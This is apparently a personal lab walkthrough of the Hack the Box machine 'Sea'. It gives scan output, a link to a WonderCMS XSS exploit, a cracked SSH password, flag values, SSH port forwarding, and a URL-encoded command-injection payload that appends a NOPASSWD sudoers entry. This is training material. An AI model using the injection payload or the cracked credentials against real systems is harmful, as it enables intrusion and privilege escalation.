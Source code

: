 ```yaml
---
title: Sea - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Sea.png
---
```

---
title: 2024-10-12-Sea - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Sea.png
---
### Scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Sea - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### Enum
80 - Apache 2.4.41
	Contact.php potential?
	Very thorough with dir enum. README.enum
	WonderCMS Bike Theme 3.2.0 - XSS https://github.com/insomnia-jacob/CVE-2023-41425.git
	Validate main index login
	break down how works
	Once done, use exploit
	
### Initial Access
stable shell
root around www data and dump js database
we get hash. for whatever the fuck reason, remove backslashes and crack with john.
login to amay ssh with password `mychemicalromance`
USER:59988bcea1fb845cc8c4eac8acd962cb


serve linpeas cuz all the shit gotdamn locked

### Privilege Escalation
netstat and/or linpeas
make note of 8080, or http-alt. must be web service
port forward `ssh -v -N -L 8888:localhost:8080 amay@sea.htb`
login with same creds
proxy thru burp to play with file analysis tool. Information leak here
Command Injection![Image](/assets/Screenshot 2024-10-08 at 11.17.26 AM.png)
Lets give our user root priv `/etc/passwd+%26%26+echo+"amay+ALL=(ALL)+NOPASSWD:+ALL"+>+/etc/sudoers.d/amay+#`
success![Image](/assets/Screenshot 2024-10-08 at 11.19.23 AM.png)
sudo -i to upgrade shell!
Root:62abbfcbb2ade98a7e550bdaf9b839c5
